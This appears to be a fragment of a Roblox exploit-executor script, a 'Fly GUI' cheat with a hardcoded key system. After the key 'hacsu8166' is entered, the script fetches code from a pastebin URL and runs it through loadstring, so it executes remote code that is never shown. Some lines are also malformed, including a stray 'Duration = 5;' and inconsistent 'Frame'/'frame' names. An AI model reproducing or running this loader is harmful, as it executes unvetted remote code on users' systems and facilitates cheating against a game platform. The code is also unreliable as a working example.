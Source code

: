 game:GetService("UserInputService").InputChanged:Connect(function(input)
    if input == dragInput and dragging then
        update(input)
    end
end)

local KeySystem = Instance.new("TextBox")
KeySystem.Size = UDim2.new(1, 0, 0.5, 0)
KeySystem.Position = UDim2.new(0, 0, 0, 0)
KeySystem.Text = "Enter the Key"
KeySystem.TextColor3 = Color3.new(0, 0, 0)
KeySystem.BackgroundTransparency = 0.5
KeySystem.BackgroundColor3 = Color3.new(1, 1, 1)
KeySystem.TextWrapped = true
KeySystem.Parent = frame

local SubmitButton = Instance.new("TextButton")
SubmitButton.Size = UDim2.new(0.5, 0, 0.5, 0)
SubmitButton.Position = UDim2.new(0, 0, 0.5, 0)
SubmitButton.Text = "Submit"
SubmitButton.Parent = frame

local CloseButton = Instance.new("TextButton")
CloseButton.Size = UDim2.new(0, 20, 0, 20)
CloseButton.Position = UDim2.new(1, -20, 0, 0)
CloseButton.Text = "X"
CloseButton.TextColor3 = Color3.new(1, 1, 1)
CloseButton.BackgroundColor3 = Color3.new(1, 0, 0)
CloseButton.Parent = frame

CloseButton.MouseButton1Click:Connect(function()
    screenGui:Destroy()
end)

game:GetService("StarterGui"):SetCore("SendNotification", { 
	Title = "Fly GUI Skidded";
	Text = "Obfuscated by hacsu8166(Owner of the script) ";
	Icon = "rbxthumb://type=Asset&id=5107182114&w=150&h=150"})
Duration = 5;

Frame.Active = true -- main = gui
Frame.Draggable = true
local GetKeyButton = Instance.new("TextButton")
GetKeyButton.Size = UDim2.new(0.5, 0, 0.5, 0)
GetKeyButton.Position = UDim2.new(0.5, 0, 0.5, 0)
GetKeyButton.Text = "Get Key"
GetKeyButton.Parent = frame
--------------------------------------------------------------------------
SubmitButton.MouseButton1Click:Connect(function()
    local KeySystem = KeySystem.Text
    if KeySystem == "hacsu8166" then   
screenGui:Destroy()

loadstring(game:HttpGet(('https://pastebin.com/raw/2eEadH4D'),true))()
  
  end
end)

GetKeyButton.MouseButton1Click:Connect(function()
 setclipboard("hacsu8166") 
end) 
